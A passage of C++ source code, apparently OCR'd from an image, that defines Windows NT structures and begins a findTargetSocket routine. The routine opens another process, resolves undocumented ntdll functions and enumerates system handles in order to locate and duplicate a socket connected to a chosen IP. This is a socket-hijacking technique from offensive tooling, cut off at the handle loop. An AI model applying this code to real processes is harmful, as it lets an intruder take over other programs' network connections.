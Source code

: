 ```cpp
	ULONG HandleCount;
	SYSTEM_HANDLE Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;

typedef struct _UNICODE_STRING
{
	USHORT Length;
	USHORT MaximumLength;
	PWSTR Buffer;
} UNICODE_STRING, * PUNICODE_STRING;


typedef enum _POOL_TYPE
{
	NonPagedPool,
	PagedPool,
	NonPagedPoolMustSucceed,
	DontUseThisType,
	NonPagedPoolCacheAligned,
	PagedPoolCacheAligned,
	NonPagedPoolCacheAlignedMustS
} POOL_TYPE, * PPOOL_TYPE;

typedef struct _OBJECT_NAME_INFORMATION
{
	UNICODE_STRING Name;
} OBJECT_NAME_INFORMATION, * POBJECT_NAME_INFORMATION;

PVOID GetLibraryProcAddress(const char *LibraryName, const char *ProcName)
{
	return GetProcAddress(GetModuleHandleA(LibraryName), ProcName);
}

SOCKET findTargetSocket(DWORD dwProcessId, LPSTR dstIP) {
	HANDLE hProc;
	PSYSTEM_HANDLE_INFORMATION handleInfo;
	DWORD handleInfoSize = 0x10000;
	NTSTATUS status;
	DWORD returnLength;
	WSAPROTOCOL_INFOW wsaProtocolInfo = { 0 };
	SOCKET targetSocket;

	// Open target process with PROCESS_DUP_HANDLE rights
	hProc = OpenProcess(PROCESS_DUP_HANDLE, FALSE, dwProcessId);
	if (!hProc) {
		printf("[!] Error: could not open the process!\n");
		exit(-1);
	}
	printf("[+] Handle to process obtained!\n");

	// Find the functions
	_NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)GetLibraryProcAddress("ntdll.dll", "NtQuerySystemInformation");
	_NtDuplicateObject NtDuplicateObject = (_NtDuplicateObject)GetLibraryProcAddress("ntdll.dll", "NtDuplicateObject");
	_NtQueryObject NtQueryObject = (_NtQueryObject)GetLibraryProcAddress("ntdll.dll", "NtQueryObject");

	// Retrieve handles from the target process
	handleInfo = (PSYSTEM_HANDLE_INFORMATION)malloc(handleInfoSize);
	while ((status = NtQuerySystemInformation(SystemHandleInformation, handleInfo, handleInfoSize, NULL)) == STATUS_INFO_LENGTH_MISMATCH)
		handleInfo = (PSYSTEM_HANDLE_INFORMATION)realloc(handleInfo, handleInfoSize *= 2);
```
